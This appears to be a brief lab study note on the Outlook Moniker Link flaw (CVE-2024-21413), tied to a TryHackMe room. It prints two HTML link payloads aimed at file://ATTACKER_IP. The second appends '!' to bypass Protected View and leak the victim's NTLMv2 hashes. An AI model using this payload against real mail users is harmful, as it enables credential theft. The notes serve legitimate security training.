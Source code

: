 ```yaml
---
description: >-
  A moniker link is a unique identifier or nickname used to link a specific
  item, user, or entity to something else, often in digital systems or
  platforms.
---
```


# Moniker Links

> CVE Related to Moniker Links\
> [https://www.cve.org/CVERecord?id=CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413)

It uses&#x20;

> \<a href="file://ATTACKER\_IP/test>Click me

but this way it will trigger Protected View from Outlook

By adding `!` and some text you can bypass protected view

> \<a href="file://ATTACKER\_IP/test!exploit>Click me

This way, an authentication attempt will be made and the NTLMV2 hashes will be sent





Reference\
[https://tryhackme.com/r/room/monikerlink](https://tryhackme.com/r/room/monikerlink)
